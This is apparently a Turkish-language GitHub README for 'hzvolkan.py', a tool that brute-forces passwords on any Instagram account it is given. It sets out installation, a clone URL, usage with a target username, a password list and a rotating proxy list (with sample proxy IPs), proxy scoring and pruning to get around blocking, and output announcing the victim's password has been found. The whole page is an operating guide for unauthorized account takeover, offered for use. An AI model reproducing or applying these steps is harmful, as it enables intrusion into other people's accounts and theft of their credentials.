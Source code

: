 ## **İNSTAGRAM BRUTE FORCE ATTACK**

**BU PROGRAM, BIR PROXY LISTESI VERILDIĞINDE GÖNDERDIĞINIZ HERHANGI BIR INSTAGRAM HESABINA BRUTEFORCE UYGULAYACAKTIR.**


# **Gereksinimler**
- > *Python v3.9*
- > *Güncel Proxy Listesi*

# **ÖNCELİKLE MODÜLLERİ YÜKLEYİN**
- > *pip install pipenv*

 **PYTHON 3.9'UN KURULU OLDUĞUNDAN EMIN OLUN**
- > *pipenv --python 3.9*

# **Kurulum Gereksinimleri**
- > pipenv install

# **YARIMCI KOMUTLAR**

- *> usage: -h, --help    -k KULLANICIADI, -p PASSLISTESI,-px PROXYLISTESI,  --prune PRUNE --stats    proxy istatisliklerini görmek için -nc, --renk kapalı modu *

**Programa bir proxy listesi yükleyin. Proxy dosyası şu formatta olmalıdır: ip:port**

**Örnek;**

> *proxies_list.txt
3.238.111.248:80
206.189.59.192:8118
165.22.81.30:34100
176.248.120.70:3128
191.242.178.209:3128
180.92.194.235:80*
**

**PROXY LISTESINI YÜKLEMEK IÇIN YAZILACAK KOMUT **
- > *python3 hzvolkan.py -px <proxy yolu>*


**BU, KOMUT PROXYLER HAKKINDA SAĞLIK DURUMUNU VERIR.**

- > *python hzvolkan.py --stats*

**BU, BELIRLI BIR PUANIN ALTINDA BIR PUANA SAHIP PROXY'LERDEN KURTULMAYI SAĞLAR. AŞAĞIDA PROXY PUANI OLAN PROXY'LERIN VERITABANINI SIZE GÖSTERIR (Yazılım zaten hangi proxy'lerin kötü performans gösterdiğini otomatik olarak öğrenecek ve bunları kullanmayı bırakacaktır.)**

- > *python hzvolkan.py --prune 0.05*-

# **Kullanım**
>-  *git clone https://github.com/erkoyuncu/volkan.git*

> - python3 hzvolkan.py -u kullanıcıadı -p passlistesi -px proxylistesi


- > *YAZILIM İÇİ
- [-] Passwordlistesi:
- [-] Kullanıcı Adı:
- [-] Şifre:
- [-] Tamamlanan:
- [-] Denenen:
- [-] Proxyler:
- [-] Bağlantı:*

- *> [!] HEYY Kurbanın Şifresini Buldum 
- [+] Kullanıcı Adı:
- [+] Şifresi:*
